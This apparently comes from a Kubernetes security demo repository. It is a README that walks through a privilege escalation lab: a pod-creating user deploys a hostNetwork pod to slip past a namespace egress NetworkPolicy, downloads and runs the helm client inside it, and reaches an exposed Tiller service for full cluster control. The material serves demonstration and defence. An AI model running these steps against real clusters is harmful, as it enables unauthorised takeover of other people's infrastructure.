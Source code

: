 # Privilege escalation 
This scenario demonstrates the potential for privilege escalation and network policy bypass by a malicious insider or compromise of their credentials with the ability to create pods in a namespace leading to full cluster access.

[![asciicast](https://asciinema.org/a/293454.svg)](https://asciinema.org/a/293454)\

NOTE: This scenario will run container with root access, and it set for demo purposes only. We strongly recommend **NOT RUNNING IT ON A LIVE CLUSTER**

## pre-requisites 
Make sure your cluster is setup following the [instructions here](../env/README.md)

## Lets Hack it

### Setup and install the RBAC and Network policy

1. apply the network policy and RBAC rules 
```console
kubectl apply -f privilege-escalation/daemonset.yaml
```
2. Test the access to the system 
```console
kubectl auth can-i --as demo@example.com create pods -n kube-system
kubectl auth can-i --as demo@example.com create pods -n default
```
### Deploy sample pod to test the access
1. Deploy a simple pod
```console
kubectl --as demo@example.com apply -f privilege-escalation/simplepod.yaml
```
2. Get a shell in the pod:
```console
kubectl --as demo@example.com exec -it simplepod -- /bin/sh
```
3. Attempt to reach tiller directly:
```console 
wget -qO - tiller-deploy.kube-system:44134
exit
```

### Bypass NetworkPolicy

1. Deploy a hostnetwork pod that bypasses network egress policy on the namespace.
```console
kubectl --as demo@example.com apply -f privilege-escalation/hostnetwork.yaml
```
2. Exec in, download the helm client binary and run `helm ls` to show that it can control Tiller.

```console
kubectl --as demo@example.com exec -it hostnetwork -- /bin/sh
```
```console
export PATH=/tmp:$PATH; cd /tmp; wget -qO helm.tar.gz https://get.helm.sh/helm-v2.16.1-linux-amd64.tar.gz; tar zxvf helm.tar.gz; chmod +x linux-amd64/helm; cp linux-amd64/helm .
```
```console
export HELM_HOST=tiller-deploy.kube-system.svc.cluster.local:44134; helm version
exit
```


## Cleanup
To cleanup run 
```console
kubectl delete -f privilege-escalation/
```